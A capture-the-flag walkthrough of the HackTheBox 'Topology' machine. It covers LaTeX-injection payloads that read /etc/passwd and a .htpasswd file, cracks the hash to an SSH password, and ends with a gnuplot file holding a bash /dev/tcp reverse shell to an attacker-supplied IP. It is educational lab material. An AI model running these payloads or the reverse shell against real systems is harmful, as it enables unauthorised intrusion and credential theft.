






Topology - Machine HackTheBox
IP: 10.10.11.217
Machine Name: Topology
Difficulty: Easy
We start with a scan using Nmap:
sudo nmap --min-rate 5000 -sS -n -vvv -Pn 10.10.11.217 -oN scan_ports_tcp
We notice two open ports: port 80 for HTTP and port 22 for SSH.
When we start browsing the website, we notice something striking, referring to an equation generator in LaTeX.

However, it returns an error that it is simply due to virtual hosting. Therefore, I will add that subdomain to my /etc/hosts file.

echo "10.10.11.217 latex.topology.htb" | sudo tee -a /etc/hosts
The above command will make "latex.topology.htb" point to IP address 10.10.11.216, placing it in the last line of our /etc/hosts file.
I will also add "topology.htb":
echo "10.10.11.217 topology.htb" | sudo tee -a /etc/hosts
Once on the website, I noticed that my input needed to be interpreted in LaTeX. I tried to play with the following code in LaTeX:
\input{/etc/passwd}
This works:
$\lstinputlisting{/etc/passwd}$
Since I have a way to access internal files on the machine, I will check for subdomains to assess if there is a wider attack vector.
In just a moment, I find a virtual directory with a 401 status code, which indicates "forbidden
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://topology.htb/" -H "Host: FUZZ.topology.htb" -fw 1612

I add dev to my /etc/hosts:
echo "10.10.11.217 dev.topology.htb" | sudo tee -a /etc/hosts
When accessing dev.topology.htb I get this:

This listed the contents of the entire file and was not locked. Since I was able to see the virtual directory that required authentication, I will explore further.
$\lstinputlisting{/var/www/dev/.htpasswd}$
It works! I got the user and the hash. I simply copied the URL and ran it with curl.
curl -s -X GET "http://latex.topology.htb/equation.php?eqn=%24%5Clstinputlisting%7B%2Fvar%2Fwww%2Fdev%2F.htpasswd%7D%24&submit=" -o htpasswd.png
Then use tesseract to recognize the readable text:
tesseract htpasswd.png output
Then read:
cat output.txt
Save:
vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
Hashcat:
hashcat creds.hash --username /usr/share/wordlists/rockyou.txt
The password is "calculus20".
we try to see if it is applicable for ssh:
sshpass -p 'calculus20' ssh 'vdaisley@10.10.11.217'
I then uploaded pspy64 to the victim machine and detected the following:

In short, it indicates that it will run any file with the .plt extension located in the /opt/gnuplot directory, using "gnuplot". Since it runs with this, I will proceed to look for some "gnuplot shell command".

The document mentions that I can execute commands using either "! dir" or "system "dir"". I will opt to use "system" and create a simple file with the name "shell.plt". This way, I will ensure that the file has the .plt extension. Then, I will have to deposit it in the path /opt/gnuplot, so:
cd /opt/gnuplot
Attacker:
rlwrap nc -lnvp 8443
Victim machine (write a file with .plt ending, type shell.plt):
system "bash -c 'bash -i >& /dev/tcp/{ip}/8443 0>&1'"
Change "{ip}" to yours, you get the shell!
Do you have any questions or experience any problems trying to solve the machine? Contact me on Discord or just talk to me for a chat! I'm available to chat :).
FisMatHack#3733
Thanks for reading :)
References:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection